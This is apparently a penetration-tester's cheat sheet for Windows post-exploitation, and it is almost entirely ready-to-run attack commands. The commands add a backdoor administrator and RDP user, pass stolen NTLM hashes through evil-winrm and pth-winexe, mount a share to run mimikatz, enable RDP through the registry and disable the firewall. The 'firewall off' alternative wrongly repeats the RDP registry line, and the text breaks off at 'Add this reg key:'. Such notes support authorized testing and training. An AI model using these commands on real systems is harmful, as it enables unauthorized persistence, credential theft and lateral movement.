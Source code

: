      net user USERNAME PASSWORD /add
     net localgroup Administrators USERNAME /add
     net localgroup "Remote Management Users" USERNAME /add    
 ## Access  
     pass the hash: evil-winrm -u Administrator -H ADMIN_HASH -i IP  
     xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share   
     \\tsclient\share\mimikatz\x64\mimikatz.exe   

____ 
# Post Exploitation / Exfiltration  
## Checklist
Dual home:

    ipconfig /all
    arp -a
    route print 
## Access
### Pass the Hash with winexe

    pth-winexe //192.168.149.10 -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e cmd   
### WinRM
 Enabled WinRm as Administrator to use evil-winrm. -H to pass the hash
 
     WinRM quickconfig       
 
### Enabling RDP  
Add a user with RDP / admin privs 

    net user evil 3v1lPass /add
    net localgroup Administrators evil /add
    net localgroup "Remote Desktop Users" evil /ADD

Enable RDP 

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Turn firewall off

    netsh firewall set opmode disable
    or
    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

If you get this error:
"ERROR: CredSSP: Initialize failed, do you have correct kerberos tgt initialized ?
Failed to connect, CredSSP required by server.""
Add this reg key:
